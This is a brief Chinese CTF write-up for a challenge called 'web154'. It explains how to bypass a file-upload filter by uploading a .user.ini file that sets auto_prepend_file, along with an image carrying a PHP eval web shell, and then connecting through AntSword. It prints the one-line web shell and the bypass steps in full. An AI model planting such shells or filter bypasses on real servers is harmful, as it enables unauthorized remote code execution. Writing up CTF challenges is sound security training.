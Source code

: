 # web154
直接上传一个1.png,抓包测试
试了`一下1.phtml写马
```
<script laguage="php">phpinfo();</script>
```
发现响应code为3,失败
再次尝试上传user.ini
```
auto_prepend_file=123.png
```
![](vx_images/576547062339477.png)
发现响应还是code:3,可能对文件内容有检测,变换木马形式
```
<?=eval($_POST["cmd"]);?>
```
上传成功
![](vx_images/546220061158909.png)
访问url/upload/(因为.user.ini是对默认页面的设置)后面不加路径自动访问index.php
蚁剑连接也需要这么做不要访问图片路径
